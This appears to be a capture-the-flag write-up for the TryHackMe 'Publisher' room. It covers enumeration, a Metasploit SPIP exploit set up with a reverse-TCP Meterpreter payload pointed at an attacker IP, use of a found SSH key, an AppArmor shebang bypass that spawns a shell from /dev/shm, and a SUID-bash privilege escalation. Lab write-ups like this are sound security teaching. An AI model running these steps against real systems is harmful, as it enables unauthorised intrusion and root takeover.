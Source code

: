 # Writeup for Room "Publisher"

This is the writeup for the box Publisher

## 🔍 Enumeration Phase

## 1. WebSite
- The website is running on Apache.
- No useful information was found in `robots.txt`.

    ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/00.png)

    ![robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/01.png)

## 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files, the following images show the results:

    ![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/02.png)

> [!NOTE]
> There is a list of images that might contain hidden information (steganography).

## 📡 3. Nmap Scan
- The following information was found:
  - The port 22 is open. **SSH**
  - The port 80 is open. **HTTP (Apache)**

    ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/03.png)

## 4. More Fuzzing 
- I also used the command ```dirsearch -u ip-machine``` to find more directories and files.

    ![dirsearch](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/04.png)

## 🌐🖥️ 5. WebSite - Investigation
- It turns out that SPIP is a free and open-source CMS.

    ![spip](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/05.png)

- We have identified a directory called ```/spip```:

    ![spip-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/06.png)

- And there's a login form located at ```/spip/spip.php```.

    ![spip-3](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/07.png)

## 🌐🖥️ 6. WebSite - Reverse Shell

- After several attempts, I managed to exploit SPIP using msfconsole with the following configuration:

```bash
set RHOSTS <TARGET_IP>
set TARGETURI /spip/
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <YOUR_ATTACKER_IP> (in my case, my VPN IP)
```

![msfconsole](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/08.png)

- Then I navigated to ```/home/think``` and found the first flag.

    ![first-flag](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/09.png)

## 🌐🖥️ 7. Enumeration exploits - LinPEAS

- I decided to upload linpeas.sh, gave it execute permissions, and used it to check for possible privilege escalation vectors.

    ![linpeas](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/10.png)

## 🔑 8. SSH Access

- After reviewing the output from LinPEAS, I found an SSH private key.

    ![ssh-key](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/11.png)

- I downloaded the key, but when trying to use it, I got a permission denied error. I had to run:

    ![ssh-key-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/12.png)

- ```chmod 600 <key_file>``` to be able to connect successfully.

    ![ssh-key-3](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/13.png)

    ![ssh-key-4](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/14.png)

## 🐚💻🚀 9.Privilege Escalation

- The room's hint mentioned AppArmor. After searching around and experimenting, I ran the following command ```ls /etc/apparmor.d/ -la``` to gather more information on the active profiles:

    ![apparmor](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/15.png)

- There was a file named ```usr.sbin.ash```, which looked interesting, and I had permission to use a script called ```run_container```.

    ![run_container](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/16.png)

- The ```sbin.ash``` AppArmor profile contains rules that deny access to certain directories.

    ![apparmor-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/17.png)

- While researching online, I found a trick to bypass AppArmor using a container and chmod, as described here: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/apparmor.html#apparmor-shebang-bypass

- I tried running:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```
- But it returned a "Permission denied" error.

    ![permission-denied](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/18.png)

- Then I tried the following:

```bash
echo -e '#!/usr/bin/perl\nexec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
/dev/shm/test.pl
```

- ```/dev/shm``` is a temporary shared memory location with more relaxed permissions.
- A simple Perl script is created and executed to launch ```/bin/sh```.
- Result: Shell access was granted, but not yet with root privileges.

    ![shell-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/19.png)

- Then I executed the following ```echo '#!/bin/bash\nchmod +s /bin/bash' > /opt/run_container.sh```

- This script does the following: ```chmod +s /bin/bash``` → Sets the SUID bit on /bin/bash, allowing it to inherit the owner’s privileges (root) when executed.

- Now, if we run ```/bin/bash -p``` and execute ```cat /root/root.txt``` or ```id```, we can see the final flag and confirm we have root privileges.

    ![root-privileges](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/20.png)
